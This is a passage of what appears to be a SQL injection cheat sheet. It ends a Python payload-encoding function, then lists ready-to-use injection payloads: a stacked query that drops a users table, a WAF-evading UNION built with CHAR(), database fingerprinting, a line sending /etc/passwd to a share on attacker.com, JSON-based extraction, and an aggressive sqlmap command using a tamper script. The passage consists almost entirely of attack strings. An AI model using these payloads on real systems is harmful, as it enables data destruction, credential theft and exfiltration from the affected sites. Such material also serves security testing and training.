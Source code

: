 ```python
                encoded_payload += "%%%02x" % ord(char)
            else:
                encoded_payload += char
        print(f"Original: {payload}")
        print(f"Modified: {encoded_payload}")
        return encoded_payload
    return payload
```

## 11. Some More Techniques

### Stacked Queries

**Executing Multiple Statements: ⚠️⚠️⚠️⚠️**
```sql
'; DROP TABLE users; SELECT * FROM admin -- 
```

### SQLi with Web Application Firewalls

**Using Obfuscated Payloads:**
```sql
' UNION SELECT CHAR(117,115,101,114,110,97,109,101), CHAR(112,97,115,115,119,111,114,100) -- 
```

### Leveraging SQL Functions

**Using SQL Functions for Data Exfiltration:**
```sql
' UNION SELECT version(), current_database() -- 
```

### DNS Exfiltration

**Using DNS Requests for Data Exfiltration:**
```sql
'; SELECT load_file('/etc/passwd') INTO OUTFILE '\\\\attacker.com\\share' -- 
```

### Leveraging JSON Functions

**Extracting Data Using JSON Functions:**
```sql
' UNION SELECT json_extract(column_name, '$.key') FROM table_name -- 
```

## 12. Advanced Automation Techniques

### SQLMap Customization

**Using Custom Tamper Scripts:**
```bash
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=~/location/ofthescript/charencode.py --level=5 --risk=3
```

